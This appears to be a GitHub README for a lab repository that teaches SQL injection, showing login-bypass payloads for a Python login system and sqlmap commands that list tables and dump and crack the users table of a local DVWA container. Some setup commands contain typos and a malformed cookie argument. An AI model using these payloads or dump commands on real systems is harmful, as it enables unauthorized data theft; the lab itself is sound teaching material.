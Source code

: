 ```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

# Introduction

<h3>This repository demonstrates two scenarios simulating SQL injection (SQLi) attacks in a controlled environment.</h3>

## Scenarios:

<h4>

1. Basic SQLi Attack on a Python Login System

* A Python program simulating a login system with a database connection demonstrates how an attacker can exploit unvalidated user input to bypass authentication and potentially access unauthorized data.</h4>
<h4>

2. Safe Environment Web Application Demonstration (Simulated)

* A secure testing environment is set up to simulate a web application vulnerable to SQLi. A specialized tool (sqlmap) is used to demonstrate how an attacker might attempt to extract sensitive information from the database.
</h4>

# Setting Up LoginSystem with SQL Database

* Create Database and Table

```
SQL 

CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.



* Connect with Python Loginsystem.py

# Simple SQL Injection Examples
* For simple SQL injection, you can use boolean  based  or time bassed.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything

```
<p style="text-align:center;">
<img src="./PNGs/6.png"></p>

# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```
Bash

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
Bash

sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker

```
# Usage with DVWA (Damn Vulnerable Web Application)

1. Run DVWA Docker container:

```
Bash

 docker run --rm -it -p 80:80 vulnerables/web-dvwa

```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password

```
4. creat database 
<p style="text-align:center;">
<img src="./PNGs/1.png"></p>

5. go to SQL injection 
<p style="text-align:center;">
<img src="./PNGs/4.png"></p>



# SQL Injection Attack


1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.

<p style="text-align:center;">
<img src="./PNGs/5.png"></p>

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<p style="text-align:center;">
<img src="./PNGs/2.png"></p>

# Using SQLmap

- sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

<p style="text-align:center;">
<img src="./PNGs/8.png"></p>

You can use SQLmap to perform various tasks, such as: 

* Viewing all tables on the webpage:


```
Bash

cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* Viewing all table schemas:

```
Bash

sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* Viewing schema for a specific table ('users'):
``` 
Bash
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```
<p style="text-align:center;">
<img src="./PNGs/7.png"></p>

* Viewing table content and cracking password hashes:
``` 
Bash
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* outcome: 
<p style="text-align:center;">
<img src ="./PNGs/3.png"></p>



